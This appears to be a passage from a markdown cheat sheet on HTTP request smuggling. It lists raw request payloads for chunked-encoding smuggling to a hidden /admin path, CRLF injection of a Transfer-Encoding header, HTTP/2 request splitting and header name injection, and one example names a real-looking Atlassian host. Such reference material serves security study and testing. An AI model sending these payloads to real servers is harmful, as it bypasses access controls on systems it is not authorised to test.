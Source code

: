 </div>

```
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

Back-end (HTTP/1)

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

### **Request smuggling via CRLF injection**

`Foo: bar\r\nTransfer-Encoding: chunked`
or `Foo: bar\nTransfer-Encoding: chunked`

### **HTTP/2 request splitting**

<div align='center'>

```
:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

</div>

### **Header name injection**

<div align='center'>

```
:method	POST
:path	/
:authority	ecosystem.atlassian.net
foo: bar
transfer-encoding	chunked
```
